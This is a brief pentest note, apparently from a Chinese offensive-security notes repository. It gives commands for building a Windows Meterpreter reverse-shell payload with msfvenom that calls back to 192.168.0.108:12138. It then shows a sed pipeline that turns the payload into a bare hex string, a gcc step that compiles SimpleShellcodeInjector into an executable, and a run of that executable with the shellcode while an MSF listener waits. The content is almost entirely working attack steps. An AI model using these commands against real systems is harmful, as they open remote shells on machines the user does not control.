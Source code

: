 	https://github.com/DimopoulosElias/SimpleShellcodeInjector
	生成payload(c)
	>msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=12138 -f c -o shellcode.c
	执行
	>cat shellcode.c |grep -v unsigned|sed "s/\"\\\x//g"|sed "s/\\\x//g"|sed "s/\"//g"|sed ':a;N;$!ba;s/\n//g'|sed "s/;//g"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/56.png)

	MSF监听
	可使用minGW自行编译
	>gcc SimpleShellcodeInjector.c -o xxx.exe
	执行
	>xxx.exe +生成的编码